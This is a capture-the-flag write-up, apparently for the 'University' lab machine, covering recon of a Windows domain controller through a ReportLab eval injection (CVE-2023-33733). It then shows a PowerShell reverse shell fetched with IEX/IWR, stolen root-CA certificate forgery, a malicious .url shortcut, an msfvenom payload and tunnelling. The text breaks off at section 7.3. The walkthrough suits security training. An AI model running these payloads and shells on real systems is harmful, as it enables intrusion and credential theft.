







# 🏆 Complete Detailed Write-Up: University.htb

**Date:** 28 July 2026 \
**Difficulty:** Insane \ 
**OS:** Windows Server 2019/2022 \
**Domain:** university.htb \
**Target IP:** 10.129.231.193 \
**Attacker Host:** hyena@hyena \
**Pentester:** RavenHex
 
---


## 1. Overview

University is an Insane-difficulty Windows Active Directory machine that demonstrates a sophisticated attack chain involving web application exploitation, certificate abuse, and advanced ADCS misconfigurations. The attack path progresses from a ReportLab RCE vulnerability to certificate theft, leading to domain admin compromise through ESC9 and ESC14 vulnerabilities.

### The Attack Chain:

1. **ReportLab RCE (CVE-2023-33733)** — The website uses xhtml2pdf to generate PDFs from HTML content. A malicious payload injected into the profile bio triggers RCE.
2. **Shell as WAO** — Initial foothold on the Domain Controller as `university\wao`.
3. **Password Discovery** — `WebAO1337` is found in `db-backup-automator.ps1`.
4. **Certificate Forging** — Root CA files are discovered, allowing certificate forgery for `nya` (Professor).
5. **Malicious Lecture Upload** — A ZIP containing a `.url` file is uploaded, exploiting CVE-2023-36025 to get a shell as `martin.t`.
6. **RBCD Attack** — mitm6 + ntlmrelayx is used to perform a Resource-Based Constrained Delegation attack, granting `hyena$` delegation rights over WS-3.
7. **Administrator on WS-3** — getST.py is used to impersonate Administrator on WS-3.
8. **Ticket Dumping** — Rubeus dumps Rose.L's TGT from memory.
9. **GMSA Abuse** — Rose.L's ticket is used to retrieve the GMSA password for `GMSA-PClient01$`.
10. **ESC9 + ESC14 Attack** — The GMSA hash is used to impersonate Administrator on the DC.
11. **DCSync** — Administrator's hash is used to dump all domain hashes.
12. **Root Flag** — Administrator's hash is used to get a WinRM shell and the root flag.

---

## 2. Reconnaissance

### 2.1 Full TCP Port Scan

A full TCP port scan is performed to identify all open services on the target. The scan uses SYN scanning (`-sS`), skips host discovery (`-Pn`), and scans all 65,535 ports at a high rate. Skipping host discovery matters here specifically because ICMP is very commonly filtered on hardened Windows hosts, and a ping-based liveness check would otherwise mark the box as down before a single port is even probed.

```bash
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.231.193
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-28 04:42 +0000
Warning: 10.129.231.193 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.129.231.193
Host is up (0.35s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49679/tcp open  unknown
49685/tcp open  unknown
49706/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 15.07 seconds
```


The port list is immediately recognizable as a Windows Active Directory Domain Controller: Kerberos (88), LDAP/Global Catalog (389/3268/3269), SMB (445), and the RPC/WinRM ports that come with every domain-joined Windows box. Port 80 is open, indicating a web server.

### 2.2 Service & Version Detection

Once the open ports are known, a targeted scan against just those ports can afford to run more expensive checks — version detection, default NSE scripts, and OS fingerprinting — without paying the cost of running them against all 65,535 ports.

```bash
hyena@hyena$ nmap -sV -sC -p 53,80,88,135,139,389,445,464,593,636,2179,3268,3269,5985,9389,47001 -O -A 10.129.231.193
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-28 04:45 +0000
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 04:45 (0:00:03 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 04:45 (0:00:03 remaining)
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 75.00% done; ETC: 04:45 (0:00:03 remaining)
Nmap scan report for university.htb (10.129.231.193)
Host is up (0.35s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          nginx 1.24.0
|_http-title: University
|_http-server-header: nginx/1.24.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-28 11:51:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: university.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|11|2012|2022|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows 10 1709 - 22H2 (94%), Microsoft Windows 10 1909 (92%), Microsoft Windows 11 24H2 - 25H2 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 21H2 (90%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: 7h05m50s
| smb2-time:
|   date: 2026-07-28T11:52:09
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   426.70 ms 10.10.14.1
2   426.95 ms university.htb (10.129.231.193)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.84 seconds
```


**Key Findings:**
- Domain: `university.htb`
- DC Hostname: `DC.university.htb`
- OS: Windows Server 2019/2022
- Web server: nginx 1.24.0 (Django application)
- SMB signing is enabled and required (no relay attacks)
- Time skew: +7 hours (will need `ntpdate` for Kerberos)

The clock-skew warning matters practically: Kerberos authentication requires the client and DC clocks to agree within a small tolerance (5 minutes by default), so any Kerberos-based tooling used later needs to account for this ~7-hour offset (e.g. with `ntpdate`) or authentication will fail with a clock-skew error even when the credentials are correct.

### 2.3 DNS Resolution

The domain and hostname are added to `/etc/hosts` to ensure proper name resolution for all subsequent tools, since Kerberos and LDAP tooling generally expect to resolve the DC by name, not just by IP.

```bash
hyena@hyena$ echo "10.129.231.193 university.htb dc.university.htb" | sudo tee -a /etc/hosts
10.129.231.193 university.htb dc.university.htb
```

### 2.4 Web Application Enumeration

The website is a Django application for a university:

```bash
hyena@hyena$ curl -I http://university.htb/
HTTP/1.1 200 OK
Server: nginx/1.24.0
Date: Tue, 28 Jul 2026 12:00:47 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Cross-Origin-Opener-Policy: same-origin
```


**Key Observations:**
- Django web application
- Student and Professor registration available
- Certificate-based login (SDC Login)
- Profile export generates PDFs using xhtml2pdf

### 2.5 PDF Metadata Analysis
After rounding on webapp i saw that i can donwload my profile in pdf

The PDF export reveals the underlying technology:

```bash
hyena@hyena$ exiftool profile.pdf
ExifTool Version Number         : 13.55
File Name                       : profile.pdf
Directory                       : .
File Size                       : 7.6 kB
File Modification Date/Time     : 2026:07:28 05:01:12+00:00
File Access Date/Time           : 2026:07:28 05:01:26+00:00
File Inode Change Date/Time     : 2026:07:28 05:01:26+00:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          :
Create Date                     : 2026:07:28 05:07:00+08:00
Creator                         : (unspecified)
Modify Date                     : 2026:07:28 05:07:00+08:00
Producer                        : xhtml2pdf <https://github.com/xhtml2pdf/xhtml2pdf/>
Subject                         :
Title                           : University | raven Profile
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```

**Critical Finding:** The PDF is generated using `xhtml2pdf`, which uses ReportLab. This is vulnerable to CVE-2023-33733 (ReportLab RCE).

---

## 3. Initial Foothold: ReportLab RCE (CVE-2023-33733)

### 3.1 Understanding the Vulnerability

ReportLab has a critical vulnerability where the `color` attribute in HTML tags is passed through Python's `eval()` function. A malicious HTML payload can execute arbitrary Python code.

The exploit payload:

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('COMMAND_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    exploit
</font></para>
```

### 3.2 Testing with Ping

A ping test is performed to confirm command execution:

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('ping -n 5 10.10.14.5') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    exploit
</font></para>
```


The payload is pasted into the bio field of the user profile.



Upon exporting the profile to PDF, ICMP packets confirm command execution:

```bash
hyena@hyena$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:24:48.066620 IP 10.129.231.193 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
20:24:48.066666 IP 10.10.14.5 > 10.129.231.193: ICMP echo reply, id 1, seq 1, length 40
20:24:49.076732 IP 10.129.231.193 > 10.10.14.5: ICMP echo request, id 1, seq 2, length 40
20:24:49.076766 IP 10.10.14.5 > 10.129.231.193: ICMP echo reply, id 1, seq 2, length 40
20:24:50.097978 IP 10.129.231.193 > 10.10.14.5: ICMP echo request, id 1, seq 3, length 40
20:24:50.097995 IP 10.10.14.5 > 10.129.231.193: ICMP echo reply, id 1, seq 3, length 40
20:24:51.117805 IP 10.129.231.193 > 10.10.14.5: ICMP echo request, id 1, seq 4, length 40
20:24:51.117824 IP 10.10.14.5 > 10.129.231.193: ICMP echo reply, id 1, seq 4, length 40
```

### 3.3 Getting a Reverse Shell

A PowerShell reverse shell is created and hosted:

```bash
hyena@hyena$ cat > shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
EOF
```

The payload is updated to download and execute `shell.ps1`:

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell IEX(IWR http://10.10.14.5:8080/shell.ps1 -usebasicparsing)') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
    exploit
</font></para>
```



A reverse shell is received:

```bash
hyena@hyena$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.231.193 53894
Windows PowerShell running as user WAO on DC
PS C:\Web\University> whoami
university\wao
```

---

## 4. Shell as WAO on DC

### 4.1 Initial Enumeration

```powershell
PS C:\Web\University> whoami
university\wao
PS C:\Web\University> hostname
DC
PS C:\Web\University> ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:
   IPv4 Address. . . . . . . . . . . : 10.129.231.193
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.129.231.1
```

### 4.2 Discovering the Backup Script

In `C:\Web\DB Backups`, a PowerShell script is found:

```powershell
PS C:\Web\DB Backups> cat db-backup-automator.ps1
$sourcePath = "C:\Web\University\db.sqlite3"
$destinationPath = "C:\Web\DB Backups\"
$7zExePath = "C:\Program Files\7-Zip\7z.exe"

$zipFileName = "DB-Backup-$(Get-Date -Format 'yyyy-MM-dd').zip"
$zipFilePath = Join-Path -Path $destinationPath -ChildPath $zipFileName
$7zCommand = "& `"$7zExePath`" a `"$zipFilePath`" `"$sourcePath`" -p'WebAO1337'"
Invoke-Expression -Command $7zCommand
```

**Critical Finding:** The backup password is `WebAO1337`.

### 4.3 Password Spray

The password `WebAO1337` is sprayed across all domain users:

```bash
hyena@hyena$ netexec smb dc.university.htb -u users.txt -p WebAO1337 --continue-on-success
SMB         10.129.231.193   445    DC               [+] university.htb\WAO:WebAO1337
```

It works for `WAO`, the same user already compromised.

### 4.4 Domain Enumeration

```powershell
PS C:\Web\University> Import-Module ActiveDirectory; Get-ADComputer -Filter * -Property DNSHostName | Select-Object Name,DNSHostName,IPAddress

Name         DNSHostName                 IPAddress
----         -----------                 ---------
DC           DC.university.htb           {}
WS-3         WS-3.university.htb         {}
WS-1                                     {}
WS-2                                     {}
WS-4                                     {}
WS-5                                     {}
LAB-2        LAB-2                       {}
SETUPMACHINE SetupMachine.university.htb {}
```

DNS resolution reveals IPs:

```powershell
PS C:\Web\University> Get-ADComputer -Filter * -Property DNSHostName | ForEach-Object {
    $computer = $_
    try {
        $ip = [System.Net.Dns]::GetHostAddresses($computer.DNSHostName) | Where-Object {$_.AddressFamily -eq 'InterNetwork'} | Select-Object -First 1
        [PSCustomObject]@{
            Name = $computer.Name
            DNSHostName = $computer.DNSHostName
            IPAddress = $ip.IPAddressToString
        }
    } catch {
        [PSCustomObject]@{
            Name = $computer.Name
            DNSHostName = $computer.DNSHostName
            IPAddress = "N/A"
        }
    }
}

Name         DNSHostName                 IPAddress
----         -----------                 ---------
DC           DC.university.htb           10.129.231.193
WS-3         WS-3.university.htb         192.168.99.2
WS-1                                     10.129.231.193
WS-2                                     10.129.231.193
WS-4                                     10.129.231.193
WS-5                                     10.129.231.193
LAB-2        LAB-2                       192.168.99.12
SETUPMACHINE SetupMachine.university.htb 10.10.10.4
```

### 4.5 SMB Enumeration

```bash
hyena@hyena$ netexec smb dc.university.htb -u WAO -p WebAO1337 --shares
SMB         10.129.231.193   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.193   445    DC               [+] university.htb\WAO:WebAO1337
SMB         10.129.231.193   445    DC               [*] Enumerated shares
SMB         10.129.231.193   445    DC               Share           Permissions     Remark
SMB         10.129.231.193   445    DC               -----           -----------     ------
SMB         10.129.231.193   445    DC               ADMIN$                          Remote Admin
SMB         10.129.231.193   445    DC               C$                              Default share
SMB         10.129.231.193   445    DC               IPC$            READ            Remote IPC
SMB         10.129.231.193   445    DC               Lectures                        Lectures Share folder for Content Evalutors for reviewing submitted lectures
SMB         10.129.231.193   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.231.193   445    DC               SYSVOL          READ            Logon server share
```

### 4.6 Root CA Files

The CA directory contains the Root CA files:

```powershell
PS C:\Web\University> ls CA

Directory: C:\Web\University\CA

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/15/2024   5:51 AM           1399 rootCA.crt
-a----        2/15/2024   5:48 AM           1704 rootCA.key
-a----        2/25/2024   5:41 PM             42 rootCA.srl
```

These files are downloaded to the attacker machine.

---

## 5. Lateral Movement: Pivoting with Chisel

### 5.1 Setting Up Chisel

Since the internal network (192.168.99.x) is not directly accessible, Chisel is used to create a SOCKS tunnel.

```bash
# On Kali
hyena@hyena$ ./chisel server -p 8000 --reverse --socks5
```

```powershell
# On DC (Evil-WinRM)
PS C:\Users\WAO\Downloads> .\chisel.exe client 10.10.14.5:8000 R:socks
```

### 5.2 Evil-WinRM as WAO

```bash
hyena@hyena$ evil-winrm -i 10.129.231.193 -u wao -p 'WebAO1337'
```

### 5.3 Connecting to WS-3

```bash
hyena@hyena$ proxychains4 evil-winrm -i 192.168.99.2 -u wao -p 'WebAO1337'
*Evil-WinRM* PS C:\Users\wao\Documents> whoami
university\wao
```

### 5.4 Connecting to LAB-2

```bash
hyena@hyena$ proxychains4 ssh wao@192.168.99.12
wao@LAB-2:~$ whoami
wao
wao@LAB-2:~$ sudo bash
root@LAB-2:~# whoami
root
```

---

## 6. Professor Access via Certificate Forging

### 6.1 Identifying Professor Accounts

The database reveals professor accounts:

```sql
sqlite> select username,email,user_type from University_customuser where user_type='Professor';
username|email|user_type
george|george@university.htb|Professor
carol|carol@science.com|Professor
Nour|nour.qasso@gmail.com|Professor
martin.rose|martin.rose@hotmail.com|Professor
nya|nya.laracrof@skype.com|Professor
```

### 6.2 Forging Nya's Certificate

Using the Root CA files, a certificate for `nya` is forged:

```bash
hyena@hyena$ openssl req -newkey rsa:2048 -keyout nya.key -out nya.csr -nodes -subj "/CN=nya/emailAddress=nya.laracrof@skype.com"
hyena@hyena$ openssl x509 -req -in nya.csr -CA rootCA.crt -CAkey rootCA.key -CAcreateserial -out nya.crt -days 365
hyena@hyena$ openssl pkcs12 -export -out nya.pfx -inkey nya.key -in nya.crt -password pass:nya123
```



Login as Nya provides professor access:



### 6.3 Uploading Nya's GPG Public Key

```bash
hyena@hyena$ gpg --batch --gen-key <<EOF
%no-protection
Key-Type: RSA
Key-Length: 2048
Name-Real: Nya Laracrof
Name-Email: nya.laracrof@skype.com
%commit
EOF
hyena@hyena$ gpg --armor --export nya.laracrof@skype.com > nya-pubkey.asc
```

The public key is uploaded to Nya's profile.

### 6.4 Creating a Malicious Lecture

A malicious ZIP containing a `.url` file is created to exploit CVE-2023-36025:

```bash
hyena@hyena$ cat > click_me.url << 'EOF'
[InternetShortcut]
URL=file://C:/Programdata/amra.exe
IDList=
EOF

hyena@hyena$ cat > Reference-1.url << 'EOF'
[InternetShortcut]
URL=http://site1.reference.com
IDList=
EOF

hyena@hyena$ cat > Reference-2.url << 'EOF'
[InternetShortcut]
URL=http://site2.reference.com/reference
IDList=
EOF

hyena@hyena$ zip lecture0xdf.zip Reference-1.url Reference-2.url click_me.url
hyena@hyena$ gpg -u nya.laracrof@skype.com --detach-sign lecture0xdf.zip
```



The lecture is uploaded as Nya.

---

## 7. Shell as Martin.T on WS-3

### 7.1 Preparing the Payload

A reverse shell executable is created:

```bash
hyena@hyena$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.99.12 LPORT=9001 -f exe -o amra.exe
```

### 7.2 Uploading to WS-3

```powershell
*Evil-WinRM* PS C:\Programdata> upload amra.exe
*Evil-WinRM* PS C:\Programdata> icacls.exe amra.exe /grant Everyone:F
```

### 7.3 Triggering the Exploit

The `.url` file is triggered, executing `amra.exe`:

```bash
